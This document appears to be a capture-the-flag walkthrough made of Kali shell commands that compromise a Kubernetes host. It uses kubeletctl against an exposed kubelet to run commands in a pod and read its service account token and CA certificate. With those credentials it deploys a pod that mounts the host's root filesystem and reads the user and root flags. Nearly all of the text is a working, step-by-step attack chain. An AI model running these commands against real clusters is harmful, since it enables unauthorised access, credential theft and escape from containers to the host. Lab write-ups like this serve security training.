 ```bash - kali
curl https://$TARGET:10250/pods -k
```

```bash - kali
git clone https://github.com/cyberark/kubeletctl
```

```bash - kali
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
```

```bash - kali
chmod a+x ./kubeletctl_linux_amd64  
```

```bash - kali
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```bash - kali
kubeletctl --server $TARGET pods
```

```bash - kali
kubeletctl --server $TARGET scan rce
```

```bash - kali
kubeletctl --server $TARGET exec "id" -p nginx -c nginx
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```

```bash - kali
export token="eyJhbGciOiJSUzI1Ni....."
```

Save the ca.crt output to a file named "ca.crt"

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 auth can-i --list
```

---

f.yaml

```yaml - kali
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

---

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 apply -f f.yaml  
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/home/user/user.txt" -p nginxt -c nginxt  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/root/root.txt" -p nginxt -c nginxt
```